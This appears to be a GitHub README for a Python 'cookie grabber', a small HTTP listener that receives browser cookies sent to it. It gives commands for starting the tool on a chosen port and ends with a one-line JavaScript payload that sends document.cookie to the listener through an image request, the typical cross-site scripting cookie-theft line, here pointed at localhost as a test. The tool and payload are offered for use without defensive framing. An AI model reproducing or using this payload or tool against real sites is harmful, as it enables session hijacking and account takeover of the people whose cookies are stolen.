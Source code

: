 # Python 3 HTTP Cookie Grabber
A cookie grabber for webrequests

## Usage

A simple cookie grabber with some formatting.

Start up
```
python3 cookieGrabber.py
```

Set port
```
python3 cookieGrabber.py -p 9999
```

## Images

![image](https://user-images.githubusercontent.com/5285547/133122623-1c9459a8-73a6-418b-acbd-8ee27490be79.png)

Port selection

![image](https://user-images.githubusercontent.com/5285547/133122763-5141ef64-e95f-4027-84e0-750f50700e46.png)

## Dev tools test (F12 firefox, chrome)

![image](https://user-images.githubusercontent.com/5285547/133122858-4189195b-b8ae-4793-a917-9c14c8e928c8.png)

```
(function(){var i = new Image;i.src='http://127.0.0.1:9988/?c'+document.cookie}())
```

